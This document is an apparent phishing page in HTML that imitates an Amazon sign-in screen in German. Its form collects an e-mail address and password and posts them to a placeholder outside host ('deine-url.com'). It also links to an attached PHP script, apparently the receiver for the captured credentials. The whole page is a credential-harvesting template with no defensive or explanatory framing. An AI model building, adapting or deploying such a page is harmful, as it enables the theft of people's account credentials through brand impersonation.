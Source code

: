 <!DOCTYPE html>
<html>
<head>
    <title>Amazon Anmelden</title>
</head>
<body>
    <h1>Amazon Anmelden</h1>
    <form action="https://deine-url.com/login" method="post">
        <label for="email">E-Mail-Adresse:</label><br>
        <input type="email" id="email" name="email"><br>
        <label for="password">Passwort:</label><br>
        <input type="password" id="password" name="password"><br>
        <input type="submit" value="Anmelden">
    </form>
</body>
</html>[script.php.txt](https://github.com/user-attachments/files/18465883/script.php.txt)
